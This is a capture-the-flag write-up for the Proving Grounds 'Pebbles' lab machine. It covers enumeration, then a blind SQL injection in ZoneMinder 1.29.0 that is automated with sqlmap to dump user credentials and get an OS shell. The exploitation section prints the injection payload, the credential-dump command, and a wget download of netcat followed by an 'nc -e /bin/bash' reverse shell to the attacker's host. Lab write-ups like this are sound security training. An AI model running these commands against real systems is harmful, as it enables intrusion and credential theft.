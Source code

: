 ```yaml
---
description: Writeup for Pebbles from Offensive Security Proving Grounds (PG)
---
```


# Pebbles

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.85.52 -t full`

`nmapAutomator.sh -H 192.168.85.52 -t vulns`

![](../../.gitbook/assets/48d97856a5ef43529a5005a82d551226.png)

### HTTP

Port 80

![](../../.gitbook/assets/80f84f8f57074fad9dc2c2947cf163aa.png)

`gobuster dir -u http://192.168.85.52 -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50`

![](../../.gitbook/assets/98b508bc3513474f9551fd3d8ba51dca.png)

Using a larger wordlist:

`gobuster dir -u http://192.168.85.52 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k -x .txt,.php --threads 100`

![](../../.gitbook/assets/6bed5bc2ca774815acb95de65006c457.png)

We have a ZoneMinder console \(v1.29.0\).

![](../../.gitbook/assets/ac06be358d81452596baff86d11f8300.png)

Port 8080 contains another HTTP service.

`gobuster dir -u http://192.168.85.52:8080 -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50`

![](../../.gitbook/assets/47a90d5dbb324e9c80cad5026bbf975f.png)

There is a `hello.php`.

![](../../.gitbook/assets/c769faeb21b0474384c91eabb8f7b6bc.png)

## Exploitation

From the ZoneMinder version \(v1.29.0\) above, we find that it is vulnerable to SQL injection.

[https://www.exploit-db.com/exploits/41239](https://www.exploit-db.com/exploits/41239)

It appears that the `limit` parameter is vulnerable to stacked queries. Using the following POST payload:

`view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=5`

We can make the server sleep for 5 seconds.

![](../../.gitbook/assets/c964409c24e74e04a20dd3d2f610147b.png)

This is a blind SQL injection \(True = sleep, False = no sleep\).

We can automate the blind SQL injection using `sqlmap`.

`sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm --tables --threads 5`

![](../../.gitbook/assets/3eecdd45a2704cddaaa5fdb4dc863094.png)

`sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm -T Users -C Username,Password --dump --threads 5`

![](../../.gitbook/assets/db401a0a624748cfb5e3a09da1caded7.png)

We can achieve RCE using the `--os-shell` option.

`sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell`

![](../../.gitbook/assets/0b50a04b17b94ea797c059370605c084.png)

```text
wget "http://192.168.49.133/nc" -O /tmp/nc
chmod +x /tmp/nc
/tmp/nc -e /bin/bash 192.168.49.133 3305
```

**Two things were important here: the port 3305, and the location of the nc binary.**

On our listening machine, we get a root shell.

![](../../.gitbook/assets/72e0d008acfc43e79d022509fea3aaa0.png)

Upgrade to an interactive shell: `python -c 'import pty;pty.spawn("/bin/bash")'`

Proof:

![](../../.gitbook/assets/86b04a6d492b4824bb14e8e7c57119d5.png)

